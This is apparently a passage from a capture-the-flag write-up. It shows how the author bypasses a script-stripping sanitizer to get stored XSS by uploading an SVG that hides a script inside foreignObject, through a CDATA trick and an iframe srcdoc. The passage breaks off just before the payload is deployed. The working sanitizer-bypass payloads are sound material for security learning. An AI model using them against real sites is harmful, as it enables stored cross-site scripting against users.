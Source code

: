 Ahh... It'll strip all `<script>` tags and inline scripts (i.e: `onerror`)...

**After some trial and error, I found that the second payload in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg-short) is interesting:**
```svg
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```

What's that `<foreignObject>` element??

> The **`<foreignObject>`** [SVG](https://developer.mozilla.org/en-US/docs/Web/SVG) element includes elements from a different XML namespace. In the context of a browser, it is most likely (X)HTML. (From [https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject))

**In the [MDN Web Docs's example](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject#example), we can see that `<foreignObject>` element can include other HTML elements!**
```html
<svg viewBox="0 0 200 200" xmlns="http://www.w3.org/2000/svg">
  <foreignObject x="20" y="20" width="160" height="160">
    <div xmlns="http://www.w3.org/1999/xhtml">
      Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed mollis mollis
      mi ut ultricies. Nullam magna ipsum, porta vel dui convallis, rutrum
      imperdiet eros. Aliquam erat volutpat.
    </div>
  </foreignObject>
</svg>
```

**Hmm... We can try to use `<foreignObject>` element to inject our evil `<script>` tag!**

**After fumbling around, I found [this writeup](https://insert-script.blogspot.com/2020/09/xss-challenge-solution-svg-use.html), which uses `<iframe>` tag inside the `<foreignObject>` element to achieve stored XSS via SVG:**
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <iframe srcdoc="&lt;script&gt;alert(document.domain)&lt;/script&gt;"></iframe>
  </foreignObject>
</svg>
```

**Then update the shared frog's SVG URL again:**
